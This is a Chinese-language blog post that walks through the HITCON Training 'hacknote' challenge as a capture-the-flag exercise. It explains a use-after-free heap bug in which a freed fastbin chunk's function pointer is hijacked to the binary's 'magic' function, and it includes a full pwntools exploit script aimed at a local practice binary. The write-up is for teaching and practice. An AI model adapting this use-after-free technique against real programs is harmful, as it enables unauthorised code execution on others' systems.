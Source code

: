 ```yaml
---
layout:		post
title:		HITCON Training writeup
author:		wooy0ung
tags:		pwn
category: 	writeup
---
```



>[索引目录]  
>0x010 hacknote(uaf)  
<!-- more -->


## 0x010 hacknote(uaf)

delete操作没有清空指针，导致的uaf。程序malloc了8 byte的fastbin存函数指针以及size
![](/assets/img/writeup/2018-04-11-hitcon-training-writeup/0x010-001.png)

show操作call了该指针，把chunk的函数指针劫持到magic打印出flag
![](/assets/img/writeup/2018-04-11-hitcon-training-writeup/0x010-002.png)

exp.py
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

s = process("./hacknote")
elf = ELF("./hacknote")

def add(con):
	s.sendlineafter("Your choice :","1")
	s.sendlineafter("size :",str(len(con)))
	s.sendlineafter("Content :",con)

def show(idx):
	s.sendlineafter("Your choice :","3")
	s.sendlineafter("Index :",str(idx))

def delete(idx):
	s.sendlineafter("Your choice :","2")
	s.sendlineafter("Index :",str(idx))

magic_addr = 0x08048986

add("A"*0x40)
add("A"*0x40)
add("A"*0x40)

delete(0)
delete(1)

add(p32(magic_addr))
show(0)
s.interactive()
```
![](/assets/img/writeup/2018-04-11-hitcon-training-writeup/0x010-003.png)